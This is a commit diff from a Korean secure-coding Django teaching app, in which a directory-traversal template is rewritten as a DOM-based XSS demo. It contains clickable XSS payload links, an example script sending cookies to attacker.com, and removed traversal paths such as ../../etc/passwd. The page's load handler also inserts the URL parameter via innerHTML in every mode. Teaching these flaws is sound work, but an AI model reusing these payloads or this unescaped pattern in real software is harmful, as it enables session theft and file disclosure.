

Before and after one commit to Si-Hyun-Kim/secureCoding, a Django app: page /myapp/directory-traversal/ in a window 1280 px wide. Shown: the whole page at 89% size, without its empty margins (219-1060 px from the left). Before the commit the page ends 883 px from the top, so only its background shows below. Run offline with Django 5.2, Linux system fonts and the light colour scheme.

Commit message:
edit XSS(dom based), directory traversal

```diff
--- a/myapp/templates/directory_traversal.html
+++ b/myapp/templates/directory_traversal.html
@@ -3,57 +3,187 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>DOM-based XSS 테스트</title>
   {% load static %}
   <link rel="stylesheet" href="{% static 'css/common.css' %}">
   <link rel="stylesheet" href="{% static 'css/test-pages.css' %}">
-  <title>Directory Traversal 테스트</title>
-  <style>
-    li { list-style-type: none; }
-  </style>
 </head>
 <body>
   <div class="container">
-    <h1>Directory Traversal 테스트</h1>
+    <h1>🌐 DOM-based XSS 테스트</h1>
 
     <div class="description">
-      <strong>Directory Traversal(경로 조작)이란?</strong><br>
-      사용자 입력을 통해 파일 경로를 조작하여 애플리케이션이 의도하지 않은 디렉토리나 파일에 접근하는 공격 기법입니다.
+      <strong>📖 DOM-based XSS란?</strong><br>
+      서버를 거치지 않고 클라이언트(브라우저)의 JavaScript에서 URL 파라미터를 직접 DOM에 삽입할 때 발생하는 XSS 공격입니다.
+      서버 로그에도 남지 않아 탐지가 어렵습니다.
     </div>
 
-    <form method="post">
-      {% csrf_token %}
-      <label for="filename"><strong>읽을 파일명을 입력하세요</strong></label>
-      <input type="text" name="filename" id="filename" placeholder="예: test.txt">
+    <div class="mode-selector">
+      <p><strong>테스트 모드를 선택하세요:</strong></p>
+      <button class="mode-btn vulnerable-btn" onclick="setMode('vulnerable')">
+        ❌ 취약코드 (innerHTML)
+      </button>
+      <button class="mode-btn safe-btn" onclick="setMode('safe')">
+        ✅ 안전코드 (textContent)
+      </button>
+    </div>
 
-      <button type="submit" name="mode" value="vulnerable" class="vulnerable">
-        ❌ 취약코드 테스트
-      </button>
-      <button type="submit" name="mode" value="safe" class="safe">
-        ✅ 안전코드 테스트
-      </button>
-    </form>
+    <div class="info-box">
+      <strong>📝 테스트 방법:</strong><br>
+      아래 버튼을 클릭하여 빠르게 테스트하거나, URL에 직접 name 파라미터를 추가하세요
+
+      <div style="margin: 15px 0; padding: 15px; background: white; border-radius: 5px; border: 2px solid #2196F3;">
+        <strong>🚀 빠른 테스트:</strong><br><br>
+
+        <a href="?name=홍길동" style="display: inline-block; padding: 10px 20px; background: #4CAF50; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
+          ✅ 정상 입력
+        </a>
+
+        <a href="?name=<img src=x onerror=alert('XSS 공격!')>" style="display: inline-block; padding: 10px 20px; background: #f44336; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
+          ❌ IMG XSS
+        </a>
+
+        <a href="?name=<svg onload=alert('SVG XSS!')>" style="display: inline-block; padding: 10px 20px; background: #f44336; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
+          ❌ SVG XSS
+        </a>
+
+        <p style="margin-top: 10px; color: #666; font-size: 14px;">
+          💡 링크를 클릭한 후 위의 <strong>"취약코드"</strong> 또는 <strong>"안전코드"</strong> 버튼을 눌러보세요!
+        </p>
+      </div>
+    </div>
+
+    <div class="result-box">
+      <h3>📊 실행 결과</h3>
+
+      <!-- 현재 URL 표시 -->
+      <p><strong>현재 URL:</strong></p>
+      <div class="code" style="margin-bottom: 15px;">
+        <div id="current-url-encoded" style="word-break: break-all; color: #666;"></div>
+      </div>
+
+      <p><strong>디코딩된 URL:</strong></p>
+      <div class="code" style="margin-bottom: 20px;">
+        <div id="current-url-decoded" style="word-break: break-all;"></div>
+      </div>
+
+      <!-- 실행 결과 -->
+      <p><strong>결과:</strong></p>
+      <div id="greeting" style="padding: 20px; background: #fff; border: 2px solid #2196F3; border-radius: 8px; min-height: 80px; font-size: 16px;">
+        <div style="color: #999; text-align: center; padding: 20px;">
+          ✨ URL에 name 파라미터를 추가한 후<br>
+          위의 <strong>"취약코드"</strong> 또는 <strong>"안전코드"</strong> 버튼을 눌러보세요!
+        </div>
+      </div>
+    </div>
 
     <div class="attack-example">
       <h3>🎯 공격 예제</h3>
-      <p><strong>정상 입력:</strong> <code>test.txt</code> → /uploads/test.txt 읽기</p>
-      <p><strong>악의적 입력:</strong> <code>../../etc/passwd</code></p>
+      <p><strong>정상 URL:</strong></p>
       <div class="code">
-        # 취약한 코드<br>
-        file_path = "/uploads/" + user_input<br>
-        # user_input = "../../etc/passwd"<br>
-        # 결과: /uploads/../../etc/passwd → /etc/passwd
+        ?name=홍길동
       </div>
-      <p><strong>다양한 공격 패턴:</strong></p>
-      <ul>
-        <li><code>../../../etc/passwd</code> - Linux 시스템 파일</li>
-        <li><code>..\..\..\..\windows\system32\config\sam</code> - Windows 파일</li>
-        <li><code>....//....//etc/passwd</code> - 필터 우회</li>
-      </ul>
+      <p><strong>악의적 URL:</strong></p>
+      <div class="code">
+        ?name=&lt;img src=x onerror=alert('XSS')&gt;<br>
+        ?name=&lt;script&gt;document.location='http://attacker.com?cookie='+document.cookie&lt;/script&gt;
+      </div>
+
+      <h4>💡 취약한 코드 vs 안전한 코드</h4>
+      <div class="code">
+        // ❌ 취약 (innerHTML 사용)<br>
+        element.innerHTML = "안녕하세요, " + name + "님!";<br>
+        // HTML 태그가 파싱되어 스크립트 실행<br>
+        <br>
+        // ✅ 안전 (textContent 사용)<br>
+        element.textContent = "안녕하세요, " + name + "님!";<br>
+        // 모든 입력을 텍스트로만 처리
+      </div>
     </div>
 
     <div class="links">
       <a href="{% url 'index' %}">🏠 메인으로</a>
     </div>
   </div>
+
+  <script>
+    let currentMode = null;
+
+    // 현재 URL 표시 (인코딩 + 디코딩)
+    function updateCurrentURL() {
+      // 인코딩된 URL (원본)
+      document.getElementById('current-url-encoded').textContent = window.location.href;
+
+      // 디코딩된 URL
+      try {
+        const decodedURL = decodeURIComponent(window.location.href);
+        document.getElementById('current-url-decoded').textContent = decodedURL;
+      } catch (e) {
+        document.getElementById('current-url-decoded').textContent = window.location.href;
+      }
+    }
+
+    function setMode(mode) {
+      currentMode = mode;
+
+      // 버튼 활성화 표시
+      document.querySelectorAll('.mode-btn').forEach(btn => {
+        btn.classList.remove('active');
+      });
+      event.target.classList.add('active');
+
+      // URL에서 name 파라미터 가져오기
+      const params = new URLSearchParams(window.location.search);
+      const name = params.get("name") || "손님";
+
+      const greetingElement = document.getElementById("greeting");
+
+      if (mode === 'vulnerable') {
+        // ❌ 취약한 코드 - innerHTML 사용
+        greetingElement.innerHTML =
+          '<div style="padding: 10px; background: #ffebee; border-left: 4px solid #f44336; border-radius: 5px;">' +
+          '<strong style="color: #c62828;">❌ 취약 모드 실행</strong><br><br>' +
+          '<div style="font-size: 18px; color: #333;">안녕하세요, ' + name + '님!</div>' +
+          '</div>';
+      } else {
+        // ✅ 안전한 코드 - textContent 사용
+        const safeDiv = document.createElement('div');
+        safeDiv.style.cssText = 'padding: 10px; background: #e8f5e9; border-left: 4px solid #4caf50; border-radius: 5px;';
+
+        const modeText = document.createElement('strong');
+        modeText.style.color = '#2e7d32';
+        modeText.textContent = '✅ 안전 모드 실행';
+
+        const br1 = document.createElement('br');
+        const br2 = document.createElement('br');
+
+        const greetingText = document.createElement('div');
+        greetingText.style.cssText = 'font-size: 18px; color: #333;';
+        greetingText.textContent = '안녕하세요, ' + name + '님!';
+
+        safeDiv.appendChild(modeText);
+        safeDiv.appendChild(br1);
+        safeDiv.appendChild(br2);
+        safeDiv.appendChild(greetingText);
+
+        greetingElement.innerHTML = '';
+        greetingElement.appendChild(safeDiv);
+      }
+    }
+
+    // 페이지 로드 시 URL 표시 및 name 확인
+    window.addEventListener('DOMContentLoaded', () => {
+      updateCurrentURL();
+
+      const params = new URLSearchParams(window.location.search);
+      if (params.has('name')) {
+        const name = params.get('name');
+        document.getElementById('greeting').innerHTML =
+          '<em style="color: #999;">✅ URL에 name 파라미터가 있습니다: <strong>' +
+          name.substring(0, 50) + (name.length > 50 ? '...' : '') +
+          '</strong><br>위의 버튼을 눌러 취약/안전 코드의 차이를 확인하세요!</em>';
+      }
+    });
+  </script>
 </body>
 </html>
```
Also changed, not shown: myapp/templates/dom_xss.html (+13 -10 lines).
